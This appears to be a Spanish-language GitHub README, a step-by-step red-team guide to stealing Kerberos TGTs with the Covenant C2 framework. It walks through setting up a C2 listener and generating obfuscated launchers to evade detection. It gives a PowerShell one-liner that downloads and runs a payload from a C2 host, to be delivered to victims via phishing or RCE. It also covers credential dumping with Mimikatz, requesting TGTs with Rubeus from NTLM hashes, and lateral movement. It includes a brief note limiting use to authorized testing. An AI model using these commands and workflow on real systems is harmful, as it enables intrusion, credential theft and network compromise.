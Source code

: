# CovenTicket
Guía paso a paso para robar un *Ticket Granting Ticket (TGT)* de Kerberos usando **Covenant** como C2. Incluye:
1. **Preparación**: Instalación de Covenant en Kali Linux (requiere .NET Core).  
2. **Técnicas**:  
   - Uso de **Rubeus** (`asktgt`) para generar TGT con credenciales/NTLM hash.  
   - Extracción de tickets con **Mimikatz** (`sekurlsa::tickets`).  
3. **Propósito**:  
   - Movimiento lateral en redes Active Directory.  
   - Escalada de privilegios (*Golden Ticket*).  
4. **Contexto Ético**:  
   - Solo para pruebas de penetración *autorizadas* y entrenamiento Red Team.  
   - Técnicas asociadas a **MITRE ATT&CK T1558.001**.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant.jpeg)

# 🔧 Configuración inicial

-  Cambiar credenciales predeterminadas (en la primera ejecución).

-  Crear un Listener (HTTP/HTTPS) para recibir conexiones de los Grunts.

-  Generar un Launcher (PowerShell, Binary, etc.) para infectar los sistemas objetivo.

  
## 1⚙️ Instalación de Covenant:
```bash
https://github.com/cobbr/Covenant/wiki/Installation-And-Startup
````

## 2 Ejecutar Covenant (modo desarrollo):

````bash
dotnet run
````
## 3 Acceder a la interfaz web: 
Abre un navegador y visita:
🔗 http://localhost:7443
Credenciales por defecto:
```bash
Usuario: usuario
Contraseña: password123
```

## 4 🎧 Configuración del Listener (HTTP/HTTPS)

-  Ve a Listeners > Create.

-  Selecciona HTTP (o HTTPS si tienes certificados).

- Configuración básica:

    - Name: MiListener-HTTP

    - BindAddress: 0.0.0.0 (escucha en todas las interfaces).

    - BindPort: 80 (HTTP) o 443 (HTTPS).

    - ConnectAddress: <IP_Pública_o_Dominio> (¡Obligatorio!).

- Perfiles C2: Usa uno predefinido (ej: default) o personaliza headers/user-agents.

- Guardar e Iniciar:

    - Click en Create y luego en Start.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Listener.png)

## 2 🚀 Generación de Launchers
Objetivo: Crear payloads para ejecutar en sistemas víctimas y obtener Grunts.

### Tipos comunes y pasos:

- A. PowerShell Launcher (One-liner):
    - Ve a Launchers > PowerShell.

    - Configura:

        - Listener: MiListener-HTTP.

        - Obfuscation: Habilita Obfuscate Command (evita detección).

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Generate.png)
    
   - Generar
        - Copia el comando resultante
        
      ```bash
      powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<C2_IP>/launcher.ps1')"
      ```
        
        - Ejecútalo en la máquina víctima (ej: via phishing o RCE).
  
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Host.png)

  - B. Binary Launcher (EXE)

    - Ve a Launchers > Binary.

    - Configura:

        - Listener: MiListener-HTTP.

        - DotNet Version: Net40 (compatible con más sistemas).

    - Generar:

        - Descarga el .exe y ejecútalo en la víctima.

## 3 🤖  Administración de Grunts
### Objetivo: Interactuar con los sistemas comprometidos.

Pasos: 
  - Ver Grunts activos:

     - En el dashboard principal, aparecerán bajo Grunts al conectarse.

  - Interactuar con un Grunt:

    - Selecciona el Grunt > Click en Interact.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Grunt-Interact.png)

    - Usa la consola para ejecutar comandos:
     ```bash
     Shell whoami /all          # Ver información del usuario.
     Shell net user /domain     # Listar usuarios del dominio (si es AD).
     ````
Comandos útiles:

-  Comando | 	Descripción

-  Shell <cmd>	|  Ejecuta comandos del sistema.

-  Upload <local> <remoto>	| Sube archivos al Grunt.

-  Download <remoto> <local>	| Descarga archivos del Grunt.

-  Ps |	Lista procesos en ejecución.

-  Inject <PID> <shellcode> |	Inyecta código en un proceso.

-  Pivot <técnica> |	Movimiento lateral (ej: SMB, WMI).

### Módulos avanzados.
 - Mimikatz Extraer credenciales:
```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
````
 - Rubeus Robar tickets Kerberos (TGT):
```bash
Execute Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_Hash> /nowrap
````
# 🚨 Solución de errores comunes
Error con ICU:

````bash
sudo apt install libicu-dev -y
export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1
````
Problemas con .NET:
````bash
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update && sudo apt install -y dotnet-sdk-6.0
````

## 🎯 Ejemplo de Flujo Completo
  - Listener: Creas MiListener-HTTP en el puerto 80.
  - Launcher: Generas un one-liner de PowerShell y lo ejecutas en la víctima.
  - Grunts: Interactúas con el Grunt, robas credenciales con Mimikatz y te mueves lateralmente.

## 📌 Notas clave
  - Kali + Covenant: Asegúrate de que el servidor Covenant sea accesible desde el exterior (configura NAT/port forwarding si es necesario).
  - HTTPS > HTTP: Siempre preferible para evitar sniffing.
  - Grunts muertos: Si un Grunt se cae, regenera el Launcher con el mismo perfil.


